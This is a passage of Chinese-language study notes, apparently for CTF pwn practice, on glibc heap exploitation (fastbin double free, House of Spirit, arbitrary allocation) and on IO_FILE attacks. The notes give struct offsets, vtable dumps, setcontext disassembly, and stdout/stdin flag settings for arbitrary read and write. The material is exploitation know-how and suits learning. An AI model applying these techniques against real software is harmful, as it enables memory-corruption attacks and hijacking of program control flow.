- 任意地址读：puts(p->name)--------------->puts(char*(addr2))
- 任意地址写：strcpy(p->name,data);------>strcpy((char *)(addr2),data)
- 控制流劫持：p->func()--------------------->call addr3


#### fastbin attack

fastbin attack 是一类漏洞的利用方法，是指所有基于 fastbin 机制的漏洞利用方法。这类利用的前提是：

- 存在堆溢出、use-after-free 等能控制 chunk 内容的漏洞
- 漏洞发生于 fastbin 类型的 chunk 中

其中，前两种主要漏洞侧重于利用 `free` 函数释放**真的 chunk 或伪造的 chunk**，然后再次申请 chunk 进行攻击，后两种侧重于故意修改 `fd` 指针，直接利用 `malloc` 申请指定位置 chunk 进行攻击。

fastbin二次释放

是指 fastbin 的 chunk 可以被多次释放，因此可以在 fastbin 链表中存在多次。这样导致的后果是多次分配可以从 fastbin 链表中取出同一个堆块，相当于多个指针指向同一个堆块。

由于 fastbin 采用单链表结构（通过 fd 指针进行链接），且当 chunk 释放时，不会清空 next chunk 的 prev _ inuse ，再加上一些检查机制上的不完善，使得 fastbin 比较脆弱。针对它的攻击方法包括一次释放、修改 fd 指针并申请（或释放）任意位置的 chunk （或 fake chunk ）等，条件是存在堆溢出或者其他漏洞可以控制 chunk 的内容。

fastbin chunk 可以很轻松地绕过检查多次释放，当这些 chunk 被重新分配出来时，就会导致多个指针指向同一个 chunk 。
 fastbin 对二次释放的检查机制仅仅验证了当前块是否与链表头部的块相同，而对链表中其他的块则没有做验证。另外，在释放时还有对当前块的 size 域与头部块的 size 域是否相等的检查，由于我们释放的是同一个块，也就不存在该问题。

House Of Spirit

是一种用于获得某块内存区域控制权的技术。假如我们希望对内存中一块 fastbins 大小的不可控内存区域进行读写，恰巧满足下面两个条件：一是该区域前后的内存是可控的；二是存在一个可控指针可以作为 free 函数的参数，那么通过布局前后内存，伪造 fake chunk 并将其释放到 fastbins 中，就可以在下一次申请同样大小的内存
时取出这块 fake chunk ，从而获得控制权。
该技术常被用于辅助栈溢出，我们知道栈溢出后通常需要覆盖函数的返回地址以控制 EIP ，但有时溢出的长度无法满足这一需求，此时如果能覆盖一个即将被释放的指针，那么我们就可以让该指针指向返回地址附近，并在此构造 fastbins 大小的 fake chunk ，利用 house of spirit 将 fake chunk 变成
真 chunk ，从而获得返回地址的控制权。

Alloc to Stack

Alloc to Stack利用的还是通过chunk的fd指针指向下一个chunk的原理。该技术核心在于通过修改fd指针使其指向stack，然后申请stack上的空间控制返回地址。

具体步骤为先在栈中伪造一个fake_chunk，然后free一个属于fast bin的chunk1，再修改free的chunk1的fd使其指向fake_chunk的地址，再申请回来chunk1，下一个申请的即是我们在栈上伪造的fake_chunk。

Arbitrary Alloc

Arbitrary Alloc与Alloc to stack基本完全相同，只是将stack换成了bss、data、heap等，要成功利用这种方法的前提除了保证目标地址存在合法的size外还应保证目标地址的内存可写。


```
disassemble __libc_realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007fa1eeef5710 <+0>:     push   r15
   0x00007fa1eeef5712 <+2>:     push   r14
   0x00007fa1eeef5714 <+4>:     push   r13
   0x00007fa1eeef5716 <+6>:     push   r12
   0x00007fa1eeef5718 <+8>:     mov    r12,rsi
   0x00007fa1eeef571b <+11>:    push   rbp
   0x00007fa1eeef571c <+12>:    push   rbx
   0x00007fa1eeef571d <+13>:    mov    rbx,rdi		//
   0x00007fa1eeef5720 <+16>:    sub    rsp,0x38		//
   
   0x00007fa6e64aa540 <+208>:   add    rsp,0x18		//
   0x00007fa6e64aa544 <+212>:   mov    rax,r13		//
   0x00007fa6e64aa547 <+215>:   pop    rbx
   0x00007fa6e64aa548 <+216>:   pop    rbp
   0x00007fa6e64aa549 <+217>:   pop    r12
   0x00007fa6e64aa54b <+219>:   pop    r13
   0x00007fa6e64aa54d <+221>:   pop    r14
   0x00007fa6e64aa54f <+223>:   pop    r15
   0x00007fa6e64aa551 <+225>:   ret
```


## IO_FILE


```c
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};


struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags
  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */
#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  /*  char* _save_gptr;  char* _save_egptr; */
  _IO_lock_t *_lock;		//任何时候都是可写地址
#ifdef _IO_USE_OLD_IO_FILE
};

struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```


```
 p *(struct _IO_FILE_plus *) addr
 fp addr
0x7f91b18625c0 <_IO_2_1_stderr>:	    0x00000000fbad2086      0x0000000000000000
0x7f91b18625d0 <_IO_2_1_stderr_+16>:    0x0000000000000000      0x0000000000000000
0x7f91b18625e0 <_IO_2_1_stderr_+32>:    0x0000000000000000      0x0000000000000000
0x7f91b18625f0 <_IO_2_1_stderr_+48>:    0x0000000000000000      0x0000000000000000
0x7f91b1862600 <_IO_2_1_stderr_+64>:    0x0000000000000000      0x0000000000000000
0x7f91b1862610 <_IO_2_1_stderr_+80>:    0x0000000000000000      0x0000000000000000
0x7f91b1862620 <_IO_2_1_stderr_+96>:    0x0000000000000000      0x00007f91b18626a0
0x7f91b1862630 <_IO_2_1_stderr_+112>:   0x0000000000000002      0xffffffffffffffff
0x7f91b1862640 <_IO_2_1_stderr_+128>:   0x0000000000000000      0x00007f91b18644b0
0x7f91b1862650 <_IO_2_1_stderr_+144>:   0xffffffffffffffff      0x0000000000000000
0x7f91b1862660 <_IO_2_1_stderr_+160>:   0x00007f91b1861780      0x0000000000000000
0x7f91b1862670 <_IO_2_1_stderr_+176>:   0x0000000000000000      0x0000000000000000
0x7f91b1862680 <_IO_2_1_stderr_+192>:   0x0000000000000000      0x0000000000000000
0x7f91b1862690 <_IO_2_1_stderr_+208>:   0x0000000000000000      0x00007f91b18634a0

0x0:'_flags',
0x8:'_IO_read_ptr',
0x10:'_IO_read_end',
0x18:'_IO_read_base',
0x20:'_IO_write_base',
0x28:'_IO_write_ptr',
0x30:'_IO_write_end',
0x38:'_IO_buf_base',
0x40:'_IO_buf_end',
0x48:'_IO_save_base',
0x50:'_IO_backup_base',
0x58:'_IO_save_end',
0x60:'_markers',
0x68:'_chain',
0x70:'_fileno',
0x74:'_flags2',
0x78:'_old_offset',
0x80:'_cur_column',
0x82:'_vtable_offset',
0x83:'_shortbuf',
0x88:'_lock',		
0x90:'_offset',
0x98:'_codecvt',
0xa0:'_wide_data',
0xa8:'_freeres_list',
0xb0:'_freeres_buf',
0xb8:'__pad5',
0xc0:'_mode',
0xc4:'_unused2',
0xd8:'vtable'
```


```c
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;    /* Current read pointer */
  wchar_t *_IO_read_end;    /* End of get area. */
  wchar_t *_IO_read_base;    /* Start of putback+get area. */
  wchar_t *_IO_write_base;    /* Start of put area. */
  wchar_t *_IO_write_ptr;    /* Current put pointer. */
  wchar_t *_IO_write_end;    /* End of put area. */
  wchar_t *_IO_buf_base;    /* Start of reserve area. */
  wchar_t *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;    /* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;    /* Pointer to first valid character of
                   backup area */
  wchar_t *_IO_save_end;    /* Pointer to end of non-current get area. */
 
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable;
};
```


```
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
/* We always allocate an extra word following an _IO_FILE.
   This contains a pointer to the function jump table used.
   This is for compatibility with C++ streambuf; the word can
   be used to smash to a pointer to a virtual function table. */
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
extern struct _IO_FILE_plus *_IO_list_all;
```


```
pwndbg> p _IO_file_jumps                                                                            
$2 = {
  __dummy = 0,
  __dummy2 = 0,
  __finish = 0x7ffff7e54460 <_IO_new_file_finish>,
  __overflow = 0x7ffff7e54ec0 <_IO_new_file_overflow>,
  __underflow = 0x7ffff7e54b70 <_IO_new_file_underflow>,
  __uflow = 0x7ffff7e55f30 <__GI__IO_default_uflow>,
  __pbackfail = 0x7ffff7e572f0 <__GI__IO_default_pbackfail>,
  __xsputn = 0x7ffff7e54050 <_IO_new_file_xsputn>,
  __xsgetn = 0x7ffff7e53c30 <__GI__IO_file_xsgetn>,
  __seekoff = 0x7ffff7e53490 <_IO_new_file_seekoff>,
  __seekpos = 0x7ffff7e562c0 <_IO_default_seekpos>,
  __setbuf = 0x7ffff7e52d50 <_IO_new_file_setbuf>,
  __sync = 0x7ffff7e52be0 <_IO_new_file_sync>,
  __doallocate = 0x7ffff7e478f0 <__GI__IO_file_doallocate>,
  __read = 0x7ffff7e54230 <__GI__IO_file_read>,
  __write = 0x7ffff7e53a90 <_IO_new_file_write>,
  __seek = 0x7ffff7e531c0 <__GI__IO_file_seek>,
  __close = 0x7ffff7e52d40 <__GI__IO_file_close>,
  __stat = 0x7ffff7e53a80 <__GI__IO_file_stat>,
  __showmanyc = 0x7ffff7e57480 <_IO_default_showmanyc>,
  __imbue = 0x7ffff7e57490 <_IO_default_imbue>
}
pwndbg> p _IO_str_jumps
$3 = {
  __dummy = 0,
  __dummy2 = 0,
  __finish = 0x7ffff7e579a0 <_IO_str_finish>,
  __overflow = 0x7ffff7e57620 <__GI__IO_str_overflow>,
  __underflow = 0x7ffff7e575c0 <__GI__IO_str_underflow>,
  __uflow = 0x7ffff7e55f30 <__GI__IO_default_uflow>,
  __pbackfail = 0x7ffff7e57980 <__GI__IO_str_pbackfail>,
  __xsputn = 0x7ffff7e55f90 <__GI__IO_default_xsputn>,
  __xsgetn = 0x7ffff7e56110 <__GI__IO_default_xsgetn>,
  __seekoff = 0x7ffff7e57ae0 <__GI__IO_str_seekoff>,
  __seekpos = 0x7ffff7e562c0 <_IO_default_seekpos>,
  __setbuf = 0x7ffff7e561c0 <_IO_default_setbuf>,
  __sync = 0x7ffff7e56590 <_IO_default_sync>,
  __doallocate = 0x7ffff7e56330 <__GI__IO_default_doallocate>,
  __read = 0x7ffff7e57460 <_IO_default_read>,
  __write = 0x7ffff7e57470 <_IO_default_write>,
  __seek = 0x7ffff7e57440 <_IO_default_seek>,
  __close = 0x7ffff7e56590 <_IO_default_sync>,
  __stat = 0x7ffff7e57450 <_IO_default_stat>,
  __showmanyc = 0x7ffff7e57480 <_IO_default_showmanyc>,
  __imbue = 0x7ffff7e57490 <_IO_default_imbue>
}
pwndbg> p _IO_helper_jumps
$4 = {
  __dummy = 0,
  __dummy2 = 0,
  __finish = 0x7ffff7e4c8b0 <__GI__IO_wdefault_finish>,
  __overflow = 0x7ffff7e41070 <_IO_helper_overflow>,
  __underflow = 0x7ffff7e55f20 <_IO_default_underflow>,
  __uflow = 0x7ffff7e55f30 <__GI__IO_default_uflow>,
  __pbackfail = 0x7ffff7e4c700 <__GI__IO_wdefault_pbackfail>,
  __xsputn = 0x7ffff7e4ca20 <__GI__IO_wdefault_xsputn>,
  __xsgetn = 0x7ffff7e4d0a0 <__GI__IO_wdefault_xsgetn>,
  __seekoff = 0x7ffff7e56620 <_IO_default_seekoff>,
  __seekpos = 0x7ffff7e562c0 <_IO_default_seekpos>,
  __setbuf = 0x7ffff7e561c0 <_IO_default_setbuf>,
  __sync = 0x7ffff7e56590 <_IO_default_sync>,
  __doallocate = 0x7ffff7e4cc60 <__GI__IO_wdefault_doallocate>,
  __read = 0x7ffff7e57460 <_IO_default_read>,
  __write = 0x7ffff7e57470 <_IO_default_write>,
  __seek = 0x7ffff7e57440 <_IO_default_seek>,
  __close = 0x7ffff7e56590 <_IO_default_sync>,
  __stat = 0x7ffff7e57450 <_IO_default_stat>,
  __showmanyc = 0x0,
  __imbue = 0x0
}

pwndbg> p _IO_wfile_jumps
$2 = {
  __dummy = 0,
  __dummy2 = 0,
  __finish = 0x7f80b5ac0fcb <_IO_new_file_finish>,
  __overflow = 0x7f80b5abc3cb <__GI__IO_wfile_overflow>,
  __underflow = 0x7f80b5abb0e9 <__GI__IO_wfile_underflow>,
  __uflow = 0x7f80b5ab9fe4 <__GI__IO_wdefault_uflow>,
  __pbackfail = 0x7f80b5ab9dda <__GI__IO_wdefault_pbackfail>,
  __xsputn = 0x7f80b5abc7f5 <__GI__IO_wfile_xsputn>,
  __xsgetn = 0x7f80b5ac0c06 <__GI__IO_file_xsgetn>,
  __seekoff = 0x7f80b5abba85 <__GI__IO_wfile_seekoff>,
  __seekpos = 0x7f80b5ac2913 <_IO_default_seekpos>,
  __setbuf = 0x7f80b5abfcee <_IO_new_file_setbuf>,
  __sync = 0x7f80b5abc66e <__GI__IO_wfile_sync>,
  __doallocate = 0x7f80b5ab6a58 <_IO_wfile_doallocate>,
  __read = 0x7f80b5ac0869 <__GI__IO_file_read>,
  __write = 0x7f80b5ac089b <_IO_new_file_write>,
  __seek = 0x7f80b5ac017a <__GI__IO_file_seek>,
  __close = 0x7f80b5abfcdd <__GI__IO_file_close>,
  __stat = 0x7f80b5ac088a <__GI__IO_file_stat>,
  __showmanyc = 0x7f80b5ac3393 <_IO_default_showmanyc>,
  __imbue = 0x7f80b5ac3399 <_IO_default_imbue>
}

```


```

```


### 任意读写


```c
#define _IO_MAGIC         0xFBAD0000 /* Magic number */
#define _IO_MAGIC_MASK    0xFFFF0000
#define _IO_USER_BUF          0x0001 /* Don't deallocate buffer on close. */
#define _IO_UNBUFFERED        0x0002
#define _IO_NO_READS          0x0004 /* Reading not allowed.  */
#define _IO_NO_WRITES         0x0008 /* Writing not allowed.  */
#define _IO_EOF_SEEN          0x0010
#define _IO_ERR_SEEN          0x0020
#define _IO_DELETE_DONT_CLOSE 0x0040 /* Don't call close(_fileno) on close.  */
#define _IO_LINKED            0x0080 /* In the list of all open files.  */
#define _IO_IN_BACKUP         0x0100
#define _IO_LINE_BUF          0x0200
#define _IO_TIED_PUT_GET      0x0400 /* Put and get pointer move in unison.  */
#define _IO_CURRENTLY_PUTTING 0x0800
#define _IO_IS_APPENDING      0x1000
#define _IO_IS_FILEBUF        0x2000
                           /* 0x4000  No longer used, reserved for compat.  */
#define _IO_USER_LOCK         0x8000
```


#### stdout

**任意读**

在_IO_new_file_xsputn 函数中需要满足`f->_IO_write_end == f->_IO_write_ptr`

```c
_IO_size_t
_IO_new_file_xsputn (_IO_FILE *f, const void *data, _IO_size_t n)
{ 

    _IO_size_t count = 0;
...
    // 判断输出缓冲区还有多少空间
    if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
    {
      count = f->_IO_buf_end - f->_IO_write_ptr;
    	·····
    }
    else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr; /* Space available. */

  // 如果输出缓冲区有空间，则先把数据拷贝至输出缓冲区
  if (count > 0)
    {    
    ...
    //memcpy
    }
    if (to_do + must_flush > 0)
    {
      if (_IO_OVERFLOW (f, EOF) == EOF)  //刷新缓冲区，需要进入到此函数
```


在_IO_new_file_overflow函数中需要满足 `f->_flags & _IO_NO_WRITES == 0 `和`f->_flags & _IO_CURRENTLY_PUTTING == 1`

```c
int
_IO_new_file_overflow (_IO_FILE *f, int ch)
{
  // 判断标志位是否包含_IO_NO_WRITES
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }

  // 判断输出缓冲区是否为空
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)//尽量不进入此函数
    {
      ...
    }

  // 输出输出缓冲区 
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
             f->_IO_write_ptr - f->_IO_write_base); //进入输出函数
  return (unsigned char) ch;
}
libc_hidden_ver (_IO_new_file_overflow, _IO_file_overflow)
```


在new_do_write函数中需要满足`_IO_read_end == _IO_write_base`或设置`_flag & _IO_IS_APPENDING`

```c
int
_IO_new_do_write (FILE *fp, const char *data, size_t to_do)
{
  return (to_do == 0
	  || (size_t) new_do_write (fp, data, to_do) == to_do) ? 0 : EOF;
}
libc_hidden_ver (_IO_new_do_write, _IO_do_write)


static
_IO_size_t
new_do_write (_IO_FILE *fp, const char *data, _IO_size_t to_do)
{
  ...
  _IO_size_t count;
  if (fp->_flags & _IO_IS_APPENDING)   //满足后不再继续判断其它分支
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      _IO_off64_t new_pos
    = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
    return 0;
      fp->_offset = new_pos;
    }
  // 输出缓冲区
  count = _IO_SYSWRITE (fp, data, to_do);
  ...

  return count;
}
```


将上述条件综合描述为：

1. 设置`_flag &~ _IO_NO_WRITES`即`_flag &~ 0x8`。

2. 设置`_flag & _IO_CURRENTLY_PUTTING`即`_flag | 0x800`

3. 设置`_fileno`为1。

4. 设置`_IO_write_base`指向想要泄露的地方；`_IO_write_ptr`指向泄露结束的地址。

5. 设置`_IO_read_end`等于`_IO_write_base`或设置`_flag & _IO_IS_APPENDING`即`_flag | 0x1000`。

6. 设置`_IO_write_end`等于`_IO_write_ptr`（非必须）。

   满足上述五个条件，可实现任意读。


**任意写**

任意写的主要原理为：构造好输出缓冲区将其改为想要任意写的地址，当输出数据可控时，会将数据拷贝至输出缓冲区，即实现了将可控数据拷贝至我们想要写的地址。

```c
_IO_size_t
_IO_new_file_xsputn (_IO_FILE *f, const void *data, _IO_size_t n)
{ 
	 const char *s = (const char *) data;
    _IO_size_t count = 0;
...
    // 判断输出缓冲区还有多少空间
    if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
    {
      count = f->_IO_buf_end - f->_IO_write_ptr;
    	·····
    }
    else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr; /* Space available. */

  // 如果输出缓冲区有空间，则先把数据拷贝至输出缓冲区
  if (count > 0)
    {
    ...
      memcpy (f->_IO_write_ptr, s, count);
```

任意写功能的实现在于IO缓冲区没有满时，会先将要输出的数据复制到缓冲区中，可通过这一点来实现任意地址写的功能。，只需将`_IO_write_ptr`指向`write_start`，`_IO_write_end`指向`write_end`即可。


#### stdin

**任意写**

在_IO_file_xsgetn函数中需要满足`_IO_read_end ==_IO_read_ptr`

```c
IO_size_t
_IO_file_xsgetn (_IO_FILE *fp, void *data, _IO_size_t n)
{
   size_t want, have;
   ssize_t count;
   char *s = data;

   want = n;
   if (fp->_IO_buf_base == NULL)
    {
      ...
      //输入缓冲区为空则初始化输入缓冲区
    }

   while (want > 0)
   {
    have = fp->_IO_read_end - fp->_IO_read_ptr;
	if (want <= have)  //缓冲区大小 > 需要的大小,则直接复制
	{
	  memcpy (s, fp->_IO_read_ptr, want);
	  fp->_IO_read_ptr += want;
	  want = 0;
	}
    else
	{
	  if (have > 0) //缓冲区大小 > 需要的大小, 且缓冲区存在值，则先将缓冲区填充满，再去刷新缓冲区
	    {
	      s = __mempcpy (s, fp->_IO_read_ptr, have);
	      want -= have;
	      fp->_IO_read_ptr += have;
	    }
      
	else{
      if (fp->_IO_buf_base
          && want < (size_t) (fp->_IO_buf_end - fp->_IO_buf_base))
        {
          if (__underflow (fp) == EOF)  // 调用__underflow读入数据
          ...
        }
      }
      ...
  return n - want;
}
```


在_IO_new_file_underflow函数中需要`fp->_flags & _IO_NO_READS == 0`和`fp->_IO_read_ptr == fp->_IO_read_end`

```c
int
_IO_new_file_underflow (_IO_FILE *fp)
{
  _IO_ssize_t count;
  /* C99 requires EOF to be "sticky".  */
  if (fp->_flags & _IO_EOF_SEEN)
    return EOF;
	
  if (fp->_flags & _IO_NO_READS)  // 如果存在_IO_NO_READS标志，则直接返回
    {
      fp->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  if (fp->_IO_read_ptr < fp->_IO_read_end)  // 如果输入缓冲区里存在数据，则直接返回
    return *(unsigned char *) fp->_IO_read_ptr;

  if (fp->_IO_buf_base == NULL)
   {
       //输入缓冲区为空则初始化输入缓冲区
   }
  if (fp->_flags & (_IO_LINE_BUF|_IO_UNBUFFERED))
    {
		........
    }

  _IO_switch_to_get_mode (fp);


  fp->_IO_read_base = fp->_IO_read_ptr = fp->_IO_buf_base;
  fp->_IO_read_end = fp->_IO_buf_base;
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_write_end
    = fp->_IO_buf_base;


  //调用_IO_SYSREAD函数最终执行系统调用读取数据
  count = _IO_SYSREAD (fp, fp->_IO_buf_base,
               fp->_IO_buf_end - fp->_IO_buf_base);
  ...

}
libc_hidden_ver (_IO_new_file_underflow, _IO_file_underflow)
```


将上述条件综合表述为：

1. 设置`_IO_read_end`等于`_IO_read_ptr`。
2. 设置`_flag &~ _IO_NO_READS`即`_flag &~ 0x4`。
3. 设置`_fileno`为0。
4. 设置`_IO_buf_base`为`write_start`，`_IO_buf_end`为`write_end`；且使得`_IO_buf_end-_IO_buf_base`大于fread要读的数据。


### house of


#### house of kiwi


 触发_`_malloc_asser`t后，去执行fflush (stderr)，会使用`_IO_file_jumps`中的`_IO_file_sync`


setcontext

```
// stdlib/setcontext.c
#include <errno.h>
#include <ucontext.h>

int setcontext(const ucontext_t *ucp){
  ……
};
```

其作用是用户上下文的设置，所以我们在可以小范围控制执行流，已知 libc_base 但不足以完成我们的目标时，可以先跳 `setcontext+53` 来扩大控制范围。简单来说就是**通过 setcontext 控制寄存器的值**。


```
glibc-2.31
pwndbg> disassemble setcontext
   0x00007f38b563d0dd <+61>:    mov    rsp,QWORD PTR [rdx+0xa0]
   0x00007f38b563d0e4 <+68>:    mov    rbx,QWORD PTR [rdx+0x80]
   0x00007f38b563d0eb <+75>:    mov    rbp,QWORD PTR [rdx+0x78]
   0x00007f38b563d0ef <+79>:    mov    r12,QWORD PTR [rdx+0x48]
   0x00007f38b563d0f3 <+83>:    mov    r13,QWORD PTR [rdx+0x50]
   0x00007f38b563d0f7 <+87>:    mov    r14,QWORD PTR [rdx+0x58]
   0x00007f38b563d0fb <+91>:    mov    r15,QWORD PTR [rdx+0x60]
   0x00007f38b563d0ff <+95>:    test   DWORD PTR fs:0x48,0x2
   0x00007f38b563d10b <+107>:   je     0x7f38b563d1c6 <setcontext+294>
   …………
   …………
   0x00007f38b563d1c6 <+294>:   mov    rcx,QWORD PTR [rdx+0xa8]
   0x00007f38b563d1cd <+301>:   push   rcx
   0x00007f38b563d1ce <+302>:   mov    rsi,QWORD PTR [rdx+0x70]
   0x00007f38b563d1d2 <+306>:   mov    rdi,QWORD PTR [rdx+0x68]
   0x00007f38b563d1d6 <+310>:   mov    rcx,QWORD PTR [rdx+0x98]
   0x00007f38b563d1dd <+317>:   mov    r8,QWORD PTR [rdx+0x28]
   0x00007f38b563d1e1 <+321>:   mov    r9,QWORD PTR [rdx+0x30]
   0x00007f38b563d1e5 <+325>:   mov    rdx,QWORD PTR [rdx+0x88]
   0x00007f38b563d1ec <+332>:   xor    eax,eax
   0x00007f38b563d1ee <+334>:   ret
   
   
   
glibc-2.27  
pwndbg> disassemble setcontext
   0x00007f5b32c80085 <+53>:	mov    rsp,QWORD PTR [rdi+0xa0]
   0x00007f5b32c8008c <+60>:	mov    rbx,QWORD PTR [rdi+0x80]
   0x00007f5b32c80093 <+67>:	mov    rbp,QWORD PTR [rdi+0x78]
   0x00007f5b32c80097 <+71>:	mov    r12,QWORD PTR [rdi+0x48]
   0x00007f5b32c8009b <+75>:	mov    r13,QWORD PTR [rdi+0x50]
   0x00007f5b32c8009f <+79>:	mov    r14,QWORD PTR [rdi+0x58]
   0x00007f5b32c800a3 <+83>:	mov    r15,QWORD PTR [rdi+0x60]
   0x00007f5b32c800a7 <+87>:	mov    rcx,QWORD PTR [rdi+0xa8]
   0x00007f5b32c800ae <+94>:	push   rcx
   0x00007f5b32c800af <+95>:	mov    rsi,QWORD PTR [rdi+0x70]
   0x00007f5b32c800b3 <+99>:	mov    rdx,QWORD PTR [rdi+0x88]
   0x00007f5b32c800ba <+106>:	mov    rcx,QWORD PTR [rdi+0x98]
   0x00007f5b32c800c1 <+113>:	mov    r8,QWORD PTR [rdi+0x28]
   0x00007f5b32c800c5 <+117>:	mov    r9,QWORD PTR [rdi+0x30]
   0x00007f5b32c800c9 <+121>:	mov    rdi,QWORD PTR [rdi+0x68]
   0x00007f5b32c800cd <+125>:	xor    eax,eax
   0x00007f5b32c800cf <+127>:	ret    
   0x00007f5b32c800d0 <+128>:	mov    rcx,QWORD PTR [rip+0x398d91]        # 0x7f5b33018e68
   0x00007f5b32c800d7 <+135>:	neg    eax
   0x00007f5b32c800d9 <+137>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f5b32c800dc <+140>:	or     rax,0xffffffffffffffff
   0x00007f5b32c800e0 <+144>:	ret
```


#### house of emma

**p *(struct _IO_cookie_file *)**

```
/* Special file type for fopencookie function.  */
struct _IO_cookie_file
{
  struct _IO_FILE_plus __fp;
  void *__cookie;
  cookie_io_functions_t __io_functions;
};

typedef struct _IO_cookie_io_functions_t
{
  cookie_read_function_t *read;        /* Read bytes.  */
  cookie_write_function_t *write;    /* Write bytes.  */
  cookie_seek_function_t *seek;        /* Seek/tell file position.  */
  cookie_close_function_t *close;    /* Close file.  */
} cookie_io_functions_t;
```


```
glibc-2.34
static ssize_t
_IO_cookie_read (FILE *fp, void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_read_function_t *read_cb = cfile->__io_functions.read;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (read_cb);
#endif

  if (read_cb == NULL)
    return -1;

  return read_cb (cfile->__cookie, buf, size);
}


pwndbg> disassemble &_IO_cookie_read
Dump of assembler code for function _IO_cookie_read:
   0x00007fcec0c789c0 <+0>:     endbr64 
   0x00007fcec0c789c4 <+4>:     mov    rax,QWORD PTR [rdi+0xe8]
   0x00007fcec0c789cb <+11>:    ror    rax,0x11
   0x00007fcec0c789cf <+15>:    xor    rax,QWORD PTR fs:0x30
   0x00007fcec0c789d8 <+24>:    test   rax,rax
   0x00007fcec0c789db <+27>:    je     0x7fcec0c789e6 <_IO_cookie_read+38>
   0x00007fcec0c789dd <+29>:    mov    rdi,QWORD PTR [rdi+0xe0]
   0x00007fcec0c789e4 <+36>:    jmp    rax
   0x00007fcec0c789e6 <+38>:    mov    rax,0xffffffffffffffff
   0x00007fcec0c789ed <+45>:    ret    
```


```
glibc-2.34
static ssize_t
_IO_cookie_write (FILE *fp, const void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_write_function_t *write_cb = cfile->__io_functions.write;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (write_cb);
#endif

  if (write_cb == NULL)
    {
      fp->_flags |= _IO_ERR_SEEN;
      return 0;
    }

  ssize_t n = write_cb (cfile->__cookie, buf, size);
  if (n < size)
    fp->_flags |= _IO_ERR_SEEN;

  return n;
}

pwndbg> disassemble &_IO_cookie_write
Dump of assembler code for function _IO_cookie_write:
   0x00007fcec0c789f0 <+0>:     endbr64 
